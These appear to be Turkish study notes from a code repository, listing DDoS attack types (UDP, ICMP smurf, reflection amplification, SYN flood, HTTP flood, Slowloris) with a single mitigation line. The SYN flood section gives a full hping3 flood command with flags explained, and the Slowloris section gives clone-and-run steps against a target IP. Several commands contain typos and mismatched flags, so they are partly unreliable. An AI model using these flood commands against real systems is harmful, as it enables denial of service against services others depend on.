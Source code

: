 # Saldırı Türleri
> ## Volumetrik Saldırılar
- ```UDP```: Temel portlarına çok sayıda UDP paketi yollanamasıdır
- ```ICMP```: **Smurf saldırı** ve **pink flood** saldırılarıdır
- ```Reflection Amplification Saldırıları```

#### ! ```ICMP```'den korunmak için **bant genişliği arttırılabilir** veya **paket sayısı ve boyutu kısıtlanabilir**

> ## Protokol Saldırıları
- ```SYN FLOOD```: En çok kullanılan DDOS saldırı tipidir
```
hping3 -c 15000 -d 120 -S -w 64 -o 80 --flood --rand -source 192.168.123.123

* -c: Paket Sayısı
* -d: Data Büyüklüğü
* -S: SYN
* -w: Windows bit boyutu
* -p: Destport
* -source: IP Adresi
```

- ```HTTP FLOOD``` 
- ```SLOWLORIS```
``` 
git clone https://githubcom/gkbrk/slowloris.git
servise apache 2 start
cd slowloris
python3 slowloris 192.168.123.123 -s 500 (-s paket sayısı)
```
